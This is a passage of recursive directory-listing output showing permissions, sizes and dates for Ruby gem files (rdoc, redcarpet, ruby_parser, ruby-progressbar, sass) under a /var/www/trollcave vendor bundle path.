-rw-r--r-- 1 rails rails 4.1K Sep 16  2016 test_rdoc_markup_to_table_of_contents.rb
-rw-r--r-- 1 rails rails 4.0K Sep 16  2016 test_rdoc_markup_to_tt_only.rb
-rw-r--r-- 1 rails rails  443 Sep 16  2016 test_rdoc_markup_verbatim.rb
-rw-r--r-- 1 rails rails 5.1K Sep 16  2016 test_rdoc_method_attr.rb
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 test_rdoc_normal_class.rb
-rw-r--r-- 1 rails rails  865 Sep 16  2016 test_rdoc_normal_module.rb
-rw-r--r-- 1 rails rails  18K Sep 16  2016 test_rdoc_options.rb
-rw-r--r-- 1 rails rails 8.6K Sep 16  2016 test_rdoc_parser_changelog.rb
-rw-r--r-- 1 rails rails  45K Sep 16  2016 test_rdoc_parser_c.rb
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 test_rdoc_parser_markdown.rb
-rw-r--r-- 1 rails rails 7.6K Sep 16  2016 test_rdoc_parser.rb
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 test_rdoc_parser_rd.rb
-rw-r--r-- 1 rails rails  75K Sep 16  2016 test_rdoc_parser_ruby.rb
-rw-r--r-- 1 rails rails 2.6K Sep 16  2016 test_rdoc_parser_simple.rb
-rw-r--r-- 1 rails rails 9.5K Sep 16  2016 test_rdoc_rd_block_parser.rb
-rw-r--r-- 1 rails rails 4.6K Sep 16  2016 test_rdoc_rd_inline_parser.rb
-rw-r--r-- 1 rails rails 1.4K Sep 16  2016 test_rdoc_rd_inline.rb
-rw-r--r-- 1 rails rails 9.7K Sep 16  2016 test_rdoc_rdoc.rb
-rw-r--r-- 1 rails rails  579 Sep 16  2016 test_rdoc_rd.rb
-rw-r--r-- 1 rails rails  481 Sep 16  2016 test_rdoc_require.rb
-rw-r--r-- 1 rails rails  33K Sep 16  2016 test_rdoc_ri_driver.rb
-rw-r--r-- 1 rails rails 4.0K Sep 16  2016 test_rdoc_ri_paths.rb
-rw-r--r-- 1 rails rails 5.4K Sep 16  2016 test_rdoc_rubygems_hook.rb
-rw-r--r-- 1 rails rails  12K Sep 16  2016 test_rdoc_ruby_lex.rb
-rw-r--r-- 1 rails rails  340 Sep 16  2016 test_rdoc_ruby_token.rb
-rw-r--r-- 1 rails rails  13K Sep 16  2016 test_rdoc_servlet.rb
-rw-r--r-- 1 rails rails  286 Sep 16  2016 test_rdoc_single_class.rb
-rw-r--r-- 1 rails rails  15K Sep 16  2016 test_rdoc_stats.rb
-rw-r--r-- 1 rails rails  26K Sep 16  2016 test_rdoc_store.rb
-rw-r--r-- 1 rails rails 4.1K Sep 16  2016 test_rdoc_task.rb
-rw-r--r-- 1 rails rails  12K Sep 16  2016 test_rdoc_text.rb
-rw-r--r-- 1 rails rails 1.4K Sep 16  2016 test_rdoc_token_stream.rb
-rw-r--r-- 1 rails rails  11K Sep 16  2016 test_rdoc_tom_doc.rb
-rw-r--r-- 1 rails rails 7.0K Sep 16  2016 test_rdoc_top_level.rb
-rw-r--r-- 1 rails rails   10 Sep 16  2016 test.txt
-rw-r--r-- 1 rails rails  610 Sep 16  2016 xref_data.rb
-rw-r--r-- 1 rails rails 1.9K Sep 16  2016 xref_test_case.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rdoc-4.2.0/test/MarkdownTest_1.0.3:
total 124K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  381 Sep 16  2016 Amps and angle encoding.text
-rw-r--r-- 1 rails rails  263 Sep 16  2016 Auto links.text
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 Backslash escapes.text
-rw-r--r-- 1 rails rails  135 Sep 16  2016 Blockquotes with code blocks.text
-rw-r--r-- 1 rails rails  199 Sep 16  2016 Code Blocks.text
-rw-r--r-- 1 rails rails  167 Sep 16  2016 Code Spans.text
-rw-r--r-- 1 rails rails  197 Sep 16  2016 Hard-wrapped paragraphs with list-like lines.text
-rw-r--r-- 1 rails rails  270 Sep 16  2016 Horizontal rules.text
-rw-r--r-- 1 rails rails  151 Sep 16  2016 Inline HTML (Advanced).text
-rw-r--r-- 1 rails rails  164 Sep 16  2016 Inline HTML comments.text
-rw-r--r-- 1 rails rails  553 Sep 16  2016 Inline HTML (Simple).text
-rw-r--r-- 1 rails rails  231 Sep 16  2016 Links, inline style.text
-rw-r--r-- 1 rails rails  791 Sep 16  2016 Links, reference style.text
-rw-r--r-- 1 rails rails  236 Sep 16  2016 Links, shortcut references.text
-rw-r--r-- 1 rails rails  108 Sep 16  2016 Literal quotes in titles.text
-rw-r--r-- 1 rails rails 7.9K Sep 16  2016 Markdown Documentation - Basics.text
-rw-r--r-- 1 rails rails  27K Sep 16  2016 Markdown Documentation - Syntax.text
-rw-r--r-- 1 rails rails   24 Sep 16  2016 Nested blockquotes.text
-rw-r--r-- 1 rails rails  903 Sep 16  2016 Ordered and unordered lists.text
-rw-r--r-- 1 rails rails  107 Sep 16  2016 Strong and em together.text
-rw-r--r-- 1 rails rails  311 Sep 16  2016 Tabs.text
-rw-r--r-- 1 rails rails   78 Sep 16  2016 Tidyness.text

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/redcarpet-3.3.3:
total 56K
drwxrwxr-x  6 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 bin
-rw-rw-r--  1 rails rails 1.1K Sep 16  2016 COPYING
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 ext
-rw-rw-r--  1 rails rails  158 Sep 16  2016 Gemfile
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 lib
-rw-rw-r--  1 rails rails 1.4K Sep 16  2016 Rakefile
-rw-rw-r--  1 rails rails  14K Sep 16  2016 README.markdown
-rw-rw-r--  1 rails rails 2.0K Sep 16  2016 redcarpet.gemspec
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 test

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/redcarpet-3.3.3/bin:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rwxrwxr-x 1 rails rails  147 Sep 16  2016 redcarpet

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/redcarpet-3.3.3/ext:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 redcarpet

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/redcarpet-3.3.3/ext/redcarpet:
total 1.2M
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails 6.4K Sep 16  2016 autolink.c
-rw-rw-r-- 1 rails rails 1.8K Sep 16  2016 autolink.h
-rw-rw-r-- 1 rails rails  22K Sep 16  2016 autolink.o
-rw-rw-r-- 1 rails rails 4.3K Sep 16  2016 buffer.c
-rw-rw-r-- 1 rails rails 2.8K Sep 16  2016 buffer.h
-rw-rw-r-- 1 rails rails  20K Sep 16  2016 buffer.o
-rw-rw-r-- 1 rails rails  104 Sep 16  2016 extconf.rb
-rw-rw-r-- 1 rails rails 1.8K Sep 16  2016 houdini.h
-rw-rw-r-- 1 rails rails 4.0K Sep 16  2016 houdini_href_e.c
-rw-rw-r-- 1 rails rails 8.9K Sep 16  2016 houdini_href_e.o
-rw-rw-r-- 1 rails rails 3.1K Sep 16  2016 houdini_html_e.c
-rw-rw-r-- 1 rails rails  10K Sep 16  2016 houdini_html_e.o
-rw-rw-r-- 1 rails rails 7.2K Sep 16  2016 html_blocks.h
-rw-rw-r-- 1 rails rails  19K Sep 16  2016 html.c
-rw-rw-r-- 1 rails rails 2.4K Sep 16  2016 html.h
-rw-rw-r-- 1 rails rails  87K Sep 16  2016 html.o
-rw-rw-r-- 1 rails rails  13K Sep 16  2016 html_smartypants.c
-rw-rw-r-- 1 rails rails  43K Sep 16  2016 html_smartypants.o
-rw-rw-r-- 1 rails rails 8.0K Sep 16  2016 Makefile
-rw-rw-r-- 1 rails rails  67K Sep 16  2016 markdown.c
-rw-rw-r-- 1 rails rails 5.5K Sep 16  2016 markdown.h
-rw-rw-r-- 1 rails rails 221K Sep 16  2016 markdown.o
-rw-rw-r-- 1 rails rails 5.1K Sep 16  2016 rc_markdown.c
-rw-rw-r-- 1 rails rails  40K Sep 16  2016 rc_markdown.o
-rw-rw-r-- 1 rails rails  14K Sep 16  2016 rc_render.c
-rw-rw-r-- 1 rails rails 123K Sep 16  2016 rc_render.o
-rw-rw-r-- 1 rails rails 1.6K Sep 16  2016 redcarpet.h
-rwxrwxr-x 1 rails rails 371K Sep 16  2016 redcarpet.so
-rw-rw-r-- 1 rails rails    0 Sep 16  2016 .RUBYARCHDIR.time
-rw-rw-r-- 1 rails rails 2.1K Sep 16  2016 stack.c
-rw-rw-r-- 1 rails rails 1.5K Sep 16  2016 stack.h
-rw-rw-r-- 1 rails rails 8.4K Sep 16  2016 stack.o

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/redcarpet-3.3.3/lib:
total 388K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 redcarpet
-rw-rw-r-- 1 rails rails 2.2K Sep 16  2016 redcarpet.rb
-rwxr-xr-x 1 rails rails 371K Sep 16  2016 redcarpet.so

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/redcarpet-3.3.3/lib/redcarpet:
total 24K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails 2.5K Sep 16  2016 cli.rb
-rw-rw-r-- 1 rails rails 2.1K Sep 16  2016 compat.rb
-rw-rw-r-- 1 rails rails 1.2K Sep 16  2016 render_man.rb
-rw-rw-r-- 1 rails rails 1.4K Sep 16  2016 render_strip.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/redcarpet-3.3.3/test:
total 80K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails  529 Sep 16  2016 benchmark.rb
-rw-rw-r-- 1 rails rails  660 Sep 16  2016 custom_render_test.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 fixtures
-rw-rw-r-- 1 rails rails 1.4K Sep 16  2016 html5_test.rb
-rw-rw-r-- 1 rails rails 6.6K Sep 16  2016 html_render_test.rb
-rw-rw-r-- 1 rails rails 2.2K Sep 16  2016 html_toc_render_test.rb
-rw-rw-r-- 1 rails rails  12K Sep 16  2016 markdown_test.rb
-rw-rw-r-- 1 rails rails  790 Sep 16  2016 pathological_inputs_test.rb
-rw-rw-r-- 1 rails rails 1.7K Sep 16  2016 redcarpet_bin_test.rb
-rw-rw-r-- 1 rails rails 1.4K Sep 16  2016 redcarpet_compat_test.rb
-rw-rw-r-- 1 rails rails  807 Sep 16  2016 safe_render_test.rb
-rw-rw-r-- 1 rails rails 1.4K Sep 16  2016 smarty_html_test.rb
-rw-rw-r-- 1 rails rails 1.8K Sep 16  2016 smarty_pants_test.rb
-rw-rw-r-- 1 rails rails 1.7K Sep 16  2016 stripdown_render_test.rb
-rw-rw-r-- 1 rails rails  779 Sep 16  2016 test_helper.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/redcarpet-3.3.3/test/fixtures:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails 8.1K Sep 16  2016 benchmark.md

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/ruby_parser-3.7.1:
total 76K
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
-r--r--r--  1 rails rails 2.2K Sep 16  2016 .autotest
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 bin
-rw-rw-r--  1 rails rails    0 Sep 16  2016 .gemtest
-r--r--r--  1 rails rails  33K Sep 16  2016 History.txt
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 lib
-r--r--r--  1 rails rails  522 Sep 16  2016 Manifest.txt
-r--r--r--  1 rails rails 4.7K Sep 16  2016 Rakefile
-r--r--r--  1 rails rails 3.1K Sep 16  2016 README.txt
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 test

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/ruby_parser-3.7.1/bin:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-r-xr-xr-x 1 rails rails 1.8K Sep 16  2016 ruby_parse
-r-xr-xr-x 1 rails rails 3.2K Sep 16  2016 ruby_parse_extract_error

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/ruby_parser-3.7.1/lib:
total 1.8M
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-r--r--r-- 1 rails rails    5 Sep 16  2016 .document
-rw-rw-r-- 1 rails rails 221K Sep 16  2016 ruby18_parser.rb
-r--r--r-- 1 rails rails  64K Sep 16  2016 ruby18_parser.y
-rw-rw-r-- 1 rails rails 228K Sep 16  2016 ruby19_parser.rb
-r--r--r-- 1 rails rails  70K Sep 16  2016 ruby19_parser.y
-rw-rw-r-- 1 rails rails 248K Sep 16  2016 ruby20_parser.rb
-rw-rw-r-- 1 rails rails  77K Sep 16  2016 ruby20_parser.y
-rw-rw-r-- 1 rails rails 252K Sep 16  2016 ruby21_parser.rb
-rw-rw-r-- 1 rails rails  77K Sep 16  2016 ruby21_parser.y
-rw-rw-r-- 1 rails rails 254K Sep 16  2016 ruby22_parser.rb
-rw-rw-r-- 1 rails rails  78K Sep 16  2016 ruby22_parser.y
-r--r--r-- 1 rails rails  31K Sep 16  2016 ruby_lexer.rb
-r--r--r-- 1 rails rails 7.6K Sep 16  2016 ruby_lexer.rex
-rw-rw-r-- 1 rails rails  13K Sep 16  2016 ruby_lexer.rex.rb
-r--r--r-- 1 rails rails  35K Sep 16  2016 ruby_parser_extras.rb
-r--r--r-- 1 rails rails  149 Sep 16  2016 ruby_parser.rb
-r--r--r-- 1 rails rails  80K Sep 16  2016 ruby_parser.yy

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/ruby_parser-3.7.1/test:
total 172K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-r-xr-xr-x 1 rails rails  79K Sep 16  2016 test_ruby_lexer.rb
-r--r--r-- 1 rails rails 6.3K Sep 16  2016 test_ruby_parser_extras.rb
-r-xr-xr-x 1 rails rails  76K Sep 16  2016 test_ruby_parser.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/ruby-progressbar-1.7.5:
total 28K
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 lib
-rw-rw-r--  1 rails rails 1.1K Sep 16  2016 LICENSE
-rw-rw-r--  1 rails rails   48 Sep 16  2016 Rakefile
-rw-rw-r--  1 rails rails 1.9K Sep 16  2016 README.md
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 spec

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/ruby-progressbar-1.7.5/lib:
total 16K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ruby-progressbar
-rw-rw-r-- 1 rails rails  513 Sep 16  2016 ruby-progressbar.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/ruby-progressbar-1.7.5/lib/ruby-progressbar:
total 64K
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails 3.4K Sep 16  2016 base.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 calculators
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 components
-rw-rw-r-- 1 rails rails  221 Sep 16  2016 components.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 errors
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 format
-rw-rw-r-- 1 rails rails  128 Sep 16  2016 format.rb
-rw-rw-r-- 1 rails rails 1.2K Sep 16  2016 output.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 outputs
-rw-rw-r-- 1 rails rails 2.9K Sep 16  2016 progress.rb
-rw-rw-r-- 1 rails rails  588 Sep 16  2016 throttle.rb
-rw-rw-r-- 1 rails rails  610 Sep 16  2016 time.rb
-rw-rw-r-- 1 rails rails 1016 Sep 16  2016 timer.rb
-rw-rw-r-- 1 rails rails   44 Sep 16  2016 version.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/ruby-progressbar-1.7.5/lib/ruby-progressbar/calculators:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails 1.5K Sep 16  2016 length.rb
-rw-rw-r-- 1 rails rails  146 Sep 16  2016 length_spec.rb
-rw-rw-r-- 1 rails rails  248 Sep 16  2016 running_average.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/ruby-progressbar-1.7.5/lib/ruby-progressbar/components:
total 28K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails 2.2K Sep 16  2016 bar.rb
-rw-rw-r-- 1 rails rails  524 Sep 16  2016 percentage.rb
-rw-rw-r-- 1 rails rails  822 Sep 16  2016 rate.rb
-rw-rw-r-- 1 rails rails 2.4K Sep 16  2016 time.rb
-rw-rw-r-- 1 rails rails  206 Sep 16  2016 title.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/ruby-progressbar-1.7.5/lib/ruby-progressbar/errors:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails   72 Sep 16  2016 invalid_progress_error.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/ruby-progressbar-1.7.5/lib/ruby-progressbar/format:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails  776 Sep 16  2016 formatter.rb
-rw-rw-r-- 1 rails rails 1.5K Sep 16  2016 molecule.rb
-rw-rw-r-- 1 rails rails  788 Sep 16  2016 string.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/ruby-progressbar-1.7.5/lib/ruby-progressbar/outputs:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails  811 Sep 16  2016 non_tty.rb
-rw-rw-r-- 1 rails rails  494 Sep 16  2016 tty.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/ruby-progressbar-1.7.5/spec:
total 24K
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 fixtures
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ruby-progressbar
-rw-rw-r-- 1 rails rails  106 Sep 16  2016 spec_helper.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 support

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/ruby-progressbar-1.7.5/spec/fixtures:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails  676 Sep 16  2016 benchmark.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/ruby-progressbar-1.7.5/spec/ruby-progressbar:
total 76K
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails  35K Sep 16  2016 base_spec.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 calculators
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 components
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 format
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 outputs
-rw-rw-r-- 1 rails rails  108 Sep 16  2016 output_spec.rb
-rw-rw-r-- 1 rails rails 3.7K Sep 16  2016 progress_spec.rb
-rw-rw-r-- 1 rails rails  106 Sep 16  2016 timer_spec.rb
-rw-rw-r-- 1 rails rails  848 Sep 16  2016 time_spec.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/ruby-progressbar-1.7.5/spec/ruby-progressbar/calculators:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails  574 Sep 16  2016 running_average_spec.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/ruby-progressbar-1.7.5/spec/ruby-progressbar/components:
total 40K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails 7.6K Sep 16  2016 bar_spec.rb
-rw-rw-r-- 1 rails rails  152 Sep 16  2016 percentage_spec.rb
-rw-rw-r-- 1 rails rails  140 Sep 16  2016 rate_spec.rb
-rw-rw-r-- 1 rails rails 3.1K Sep 16  2016 throttle_spec.rb
-rw-rw-r-- 1 rails rails 7.8K Sep 16  2016 time_spec.rb
-rw-rw-r-- 1 rails rails  261 Sep 16  2016 title_spec.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/ruby-progressbar-1.7.5/spec/ruby-progressbar/format:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails  142 Sep 16  2016 formatter_spec.rb
-rw-rw-r-- 1 rails rails  641 Sep 16  2016 molecule_spec.rb
-rw-rw-r-- 1 rails rails  136 Sep 16  2016 string_spec.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/ruby-progressbar-1.7.5/spec/ruby-progressbar/outputs:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails  139 Sep 16  2016 non_tty_spec.rb
-rw-rw-r-- 1 rails rails  132 Sep 16  2016 tty_spec.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/ruby-progressbar-1.7.5/spec/support:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails  330 Sep 16  2016 time.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19:
total 88K
drwxrwxr-x  8 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 bin
-rw-r--r--  1 rails rails  536 Sep 16  2016 CODE_OF_CONDUCT.md
-rw-r--r--  1 rails rails  162 Sep 16  2016 CONTRIBUTING.md
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 extra
-rw-r--r--  1 rails rails  587 Sep 16  2016 init.rb
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 MIT-LICENSE
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 rails
-rw-r--r--  1 rails rails  10K Sep 16  2016 Rakefile
-rw-r--r--  1 rails rails 6.8K Sep 16  2016 README.md
-rw-r--r--  1 rails rails   10 Sep 16  2016 REVISION
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 test
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 vendor
-rw-r--r--  1 rails rails    7 Sep 16  2016 VERSION
-rw-r--r--  1 rails rails   29 Sep 16  2016 VERSION_DATE
-rw-r--r--  1 rails rails   16 Sep 16  2016 VERSION_NAME
-rw-r--r--  1 rails rails  327 Sep 16  2016 .yardopts

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/bin:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 8 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x 1 rails rails  299 Sep 16  2016 sass
-rwxr-xr-x 1 rails rails  263 Sep 16  2016 sass-convert
-rwxr-xr-x 1 rails rails  299 Sep 16  2016 scss

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/extra:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 8 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  331 Sep 16  2016 update_watch.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/lib:
total 16K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x  8 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 13 rails rails 4.0K Sep 16  2016 sass
-rw-r--r--  1 rails rails 3.9K Sep 16  2016 sass.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/lib/sass:
total 272K
drwxrwxr-x 13 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 cache_stores
-rw-r--r--  1 rails rails  389 Sep 16  2016 cache_stores.rb
-rw-r--r--  1 rails rails 1.9K Sep 16  2016 callbacks.rb
-rw-r--r--  1 rails rails  12K Sep 16  2016 css.rb
-rw-r--r--  1 rails rails  45K Sep 16  2016 engine.rb
-rw-r--r--  1 rails rails 5.8K Sep 16  2016 environment.rb
-rw-r--r--  1 rails rails 6.7K Sep 16  2016 error.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 exec
-rw-r--r--  1 rails rails  199 Sep 16  2016 exec.rb
-rw-r--r--  1 rails rails 1.6K Sep 16  2016 features.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 importers
-rw-r--r--  1 rails rails  924 Sep 16  2016 importers.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 logger
-rw-r--r--  1 rails rails  190 Sep 16  2016 logger.rb
-rw-r--r--  1 rails rails 6.8K Sep 16  2016 media.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 plugin
-rw-r--r--  1 rails rails 4.9K Sep 16  2016 plugin.rb
-rw-r--r--  1 rails rails  332 Sep 16  2016 railtie.rb
-rw-r--r--  1 rails rails 1.4K Sep 16  2016 repl.rb
-rw-r--r--  1 rails rails  258 Sep 16  2016 root.rb
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 script
-rw-r--r--  1 rails rails 2.5K Sep 16  2016 script.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 scss
-rw-r--r--  1 rails rails  470 Sep 16  2016 scss.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 selector
-rw-r--r--  1 rails rails 9.6K Sep 16  2016 selector.rb
-rw-r--r--  1 rails rails 2.9K Sep 16  2016 shared.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 source
-rw-r--r--  1 rails rails 3.4K Sep 16  2016 stack.rb
-rw-r--r--  1 rails rails 5.1K Sep 16  2016 supports.rb
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 tree
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 util
-rw-r--r--  1 rails rails  45K Sep 16  2016 util.rb
-rw-r--r--  1 rails rails 4.1K Sep 16  2016 version.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/lib/sass/cache_stores:
total 28K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 13 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails 3.7K Sep 16  2016 base.rb
-rw-r--r--  1 rails rails  953 Sep 16  2016 chain.rb
-rw-r--r--  1 rails rails 1.8K Sep 16  2016 filesystem.rb
-rw-r--r--  1 rails rails 1.2K Sep 16  2016 memory.rb
-rw-r--r--  1 rails rails  496 Sep 16  2016 null.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/lib/sass/exec:
total 44K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 13 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails 6.2K Sep 16  2016 base.rb
-rw-r--r--  1 rails rails 8.2K Sep 16  2016 sass_convert.rb
